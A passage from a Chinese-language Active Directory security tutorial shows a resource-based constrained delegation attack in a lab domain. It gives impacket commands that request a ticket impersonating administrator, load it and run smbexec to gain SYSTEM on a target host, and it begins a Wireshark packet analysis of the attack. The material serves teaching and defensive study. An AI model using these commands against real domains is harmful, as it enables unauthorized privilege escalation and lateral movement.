 如图所示，可以看到基于资源的约束性委派配置成功！

![截图](a59a5aa9209ee91e5d961c8ff26c81b2.png)

#### （1）使用 impacket 攻击

首先，需要把攻击机的`/etc/resolv.conf` 文件中的 DNS 服务器指定为域控。然后执行如下命令进行攻击：

```
#以 administrator 的身份申请一张访问 cifs/win2008.xie.com 服务的票据
python3 getST.py -dc-ip AD01.xie.com xie.com/machine$:root -spn cifs/win2008.xie.com -impersonate administrator
#导入票据
export KRB5CCNAME=administrator.ccache
python3 smbexec.py -no-pass -k win2008.xie.com
```

如图所示，可以看到执行完这些命令后，成功获得 win2008 机器的 System 权限。

![截图](25d9bc6d9e76b4b8e3e06c6c448e4d3d.png)

#### （2）基于资源的约束性委派攻击抓包分析

下面我们对约束性委派攻击进行抓包分析。在进行基于资源的约束性委派攻击时，使用 WireShark 进行抓包，如图所示，一共有 6 个包。

![截图](1213e271482ca88a3e9058a237322d39.png)
